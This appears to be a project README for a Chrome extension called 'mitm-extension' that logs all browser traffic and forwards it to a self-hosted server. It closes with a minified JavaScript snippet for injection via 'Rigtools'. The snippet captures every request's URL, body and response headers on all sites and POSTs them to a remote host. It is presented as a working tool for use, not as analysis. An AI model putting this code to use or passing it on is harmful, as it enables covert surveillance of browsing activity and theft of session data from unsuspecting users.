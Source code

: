 # mitm-extension
Log all request sent to and from your browser

## Setup
```sh
$ git clone https://github.com/entrpix/mitm-extension
```

## Extension
- Inside `mitm-extension/extension/background.js` edit:
  - `SERVER_URL` to be your server
  - `TOKEN` to be your token
- Zip the extension
- Then go to `chrome://extensions`
  - Enable developer mode
  - Load extension

## Server
```sh
$ cd mitm-extension
$ cd server
$ touch .env
$ echo "TOKEN=YOUR_TOKEN" > .env
$ (p)npm i
$ node index.js
```

## Rigtools
Requires `webRequest` premission
```js
const SERVER_URL='http://DOMAIN:PORT/create';const TOKEN='TOKEN';function logServer(log){fetch(SERVER_URL,{method: 'POST',headers: {'Content-Type': 'application/json','Authentication': TOKEN},body: JSON.stringify(log)}).catch(error=>alert(error))};chrome.webRequest.onCompleted.addListener(function(details){const logEntry={ method: details.method,date: new Date().toISOString(),url: details.url,statusCode: details.statusCode,requestId: details.requestId,requestBody: details.requestBody||{},responseHeaders: details.responseHeaders||{}};logServer(logEntry)},{ urls: ["<all_urls>"] },["responseHeaders","extraHeaders"]);
```
